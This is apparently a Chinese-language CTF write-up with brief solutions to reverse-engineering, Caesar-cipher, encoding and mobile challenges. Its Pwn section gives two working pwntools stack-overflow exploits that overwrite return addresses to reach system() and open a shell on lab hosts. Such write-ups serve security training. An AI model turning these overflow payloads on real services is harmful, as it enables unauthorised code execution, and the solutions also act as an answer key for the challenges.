# Reverse

## Reverse_签到

找到main函数，就看到了flag



# Crypto

## easily_Caesar

凯撒解码一把梭，key=24



# Misc

## medium_CTFvalues

16进制转文本得到unicode编码



unicode转ascii码得到base64字符串





base64解码得到一个字符串，然后ascii码转文本


## difficult_mobile_3

jadx打开然后全局搜索base64，找字符串后进行ascii转字符



得到，把ip地址进行包裹提交



# Pwn

## easily_pwn_1

程序分析：64位程序，开启了NX保护


代码分析：有一个read函数和write函数，可以发现read函数（这里buf只有0x80字节，而read需要从buf中读取0x200个字节），存在溢出条件。


然后找是否存在后门函数



找到system函数的地址，是简单的栈溢出，找到偏移量为0x80+8，然后覆盖返回地址就可以了


exp：

```python
from pwn import *
io = remote('192.168.1.1',9002)
# io = process("./helloworld")
offset = 0x80 + 8

payload = offset*b'a' + p64(0x40059A)

io.sendline(payload)
io.interactive()
```

## medium_pwn_2

程序分析：32位程序，开启了NX保护


代码分析：和pwn1一样，看到了read函数，判断存在栈溢出，



又看到了system函数,但是少了'/bin/sh'



找到了system函数，/bin/sh参数，以及溢出条件。明显栈溢出




exp：

```python
from pwn import *
io = remote('192.168.1.1',9006)
# io = process("./helloworld")
offset = 0x88 + 4

payload = offset*b'a' + p32(0x0804845C) + p32(0x0804A024) 

io.sendline(payload)
io.interactive()
```
